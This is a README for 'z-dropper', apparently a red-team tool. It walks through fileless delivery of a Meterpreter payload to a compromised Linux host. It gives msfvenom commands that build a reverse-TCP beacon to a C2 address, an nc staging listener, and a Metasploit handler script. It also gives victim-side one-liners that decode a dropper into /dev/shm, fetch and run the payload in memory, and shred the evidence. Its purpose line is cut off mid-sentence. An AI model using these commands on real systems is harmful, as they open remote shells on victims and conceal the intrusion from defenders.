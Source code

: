 # z-dropper

## Purpose

This repository contains the collection of

## Backend (basic version)

Staging machine (ephemeral) serving stageless `mettle` payload:

```
staging$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<C2_IP> LPORT=443 --platform linux -f elf -a x64 -o beacon-mettle
staging$ nc -nlvp 443 < beacon-mettle
```

Meterpreter handler as our command and control (`C2`) machine:

```
c2$ cat > mettle-handler.rc <<'EOF'
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST <C2_IP>
set LPORT 443
set ExitOnSession false
exploit -j -z
EOF

c2$ msfconsole -r mettle-handler.rc
```

## Case 1

Assumptions:

 - Red Team member has already achieved remote `/bin/sh` access to the victim machine.
 - Only `z-dropper` is dropped on the victim's filesystem (though only on `tmpfs`).
 - Main payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` syscall (directly from memory).

Preparing C version:

```
# Getting z-dropper source file:
wget https://raw.githubusercontent.com/mzet-/z-dropper/main/z-dropper-case1.c

# Compilation and base64 encoding:
EXE=z-dropper-case1; zig cc -static -Os -target x86_64-linux-musl ${EXE}.c -o $EXE; strip -x -R -s -g $EXE; echo; cat "$EXE" | base64 -w 0; echo; echo

# On the victim machine (where `<BASE64_ENCODED_BIN>` is taken from previous step):
echo -n '<BASE64_ENCODED_BIN>' | base64 -d >/dev/shm/s; chmod +x /dev/shm/s; /dev/shm/s <STAGING_IP> 443; shred -u -f -z /dev/shm/s
```

Preparing Zig version:

```
# Getting source file:
wget https://raw.githubusercontent.com/mzet-/z-dropper/main/z-dropper-case1.zig

# Compilation and base64 encoding:
EXE=z-dropper-case1; zig build-exe -OReleaseSmall --strip ${EXE}.zig; echo; cat "$EXE" | base64 -w 0; echo; echo

# On the victim machine (where `<BASE64_ENCODED_BIN>` is taken from previous step):
echo -n '<BASE64_ENCODED_BIN>' | base64 -d >/dev/shm/s; chmod +x /dev/shm/s; /dev/shm/s <STAGING_IP> 443; shred -u -f -z /dev/shm/s
```

## Case 2

Assumptions:

 - Red Team member has already achieved remote `/bin/sh` access to the victim machine.
 - Pure fileless execution (with the help of Python interpreter)
 - Python 3 interpreter is required on the victim machine. 
 - Payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` syscall using Python's `ctype` module.
